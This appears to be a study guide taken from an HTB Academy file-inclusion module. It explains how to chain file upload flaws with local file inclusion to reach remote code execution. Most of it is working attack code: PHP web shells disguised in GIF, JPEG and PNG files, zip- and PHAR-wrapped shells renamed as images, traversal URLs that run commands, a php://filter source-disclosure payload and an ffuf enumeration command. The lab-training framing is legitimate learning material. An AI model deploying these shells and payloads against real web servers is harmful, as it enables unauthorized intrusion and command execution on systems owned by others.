 # File Upload + LFI Combinations - HTB Academy Guide

## Overview

Combining file upload vulnerabilities with LFI creates powerful attack vectors for achieving RCE when direct wrappers are not available.

**Attack Flow:**
1. **Upload malicious file** disguised as legitimate content
2. **Discover upload location** via directory traversal or source disclosure  
3. **Include uploaded file** via LFI vulnerability
4. **Execute embedded code** and achieve RCE

---

## Method 1: Malicious Image Upload

### Technique: PHP in Image Files

**Step 1: Create Malicious Image**
```bash
# GIF header with embedded PHP
echo 'GIF89a<?php system($_GET["cmd"]); ?>' > shell.gif

# JPEG with PHP payload
echo -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>' > shell.jpg

# PNG with embedded shell
cp legitimate.png shell.png
echo '<?php system($_GET["cmd"]); ?>' >> shell.png
```

**Step 2: Upload via Web Interface**
- Upload through file upload forms
- Bypass extension filters
- Discover upload directory location

**Step 3: Execute via LFI**
```bash
# Include uploaded image as PHP
http://target.com/lfi.php?file=../../../../var/www/uploads/shell.gif&cmd=id
```

---

## Method 2: Zip Wrapper Technique

### Creating Zip-based Payloads

**Step 1: Create PHP Shell**
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.zip shell.php
mv shell.zip shell.jpg  # Disguise as image
```

**Step 2: Upload and Execute**
```bash
# Upload disguised zip file
# Then include via zip wrapper
http://target.com/lfi.php?file=zip://path/to/shell.jpg%23shell.php&cmd=whoami
```

---

## Method 3: Phar Wrapper Technique

### PHAR Archive Exploitation

**Step 1: Create PHAR Archive**
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

**Step 2: Execute via PHAR Wrapper**
```bash
# Include PHAR content
http://target.com/lfi.php?file=phar://uploads/shell.jpg/shell.txt&cmd=id
```

---

## Upload Location Discovery

### Common Upload Directories
```bash
/var/www/html/uploads/
/var/www/html/files/
/var/www/html/images/
/tmp/
./uploads/
../uploads/
```

### Discovery Techniques
```bash
# Source code disclosure for paths
php://filter/convert.base64-encode/resource=upload.php

# Directory traversal enumeration
ffuf -w directories.txt:FUZZ -u "http://target.com/lfi.php?file=FUZZ/shell.gif"
```

---

*[Content continues with more detailed techniques...]*

*This guide covers file upload + LFI combination techniques from HTB Academy's File Inclusion module.* 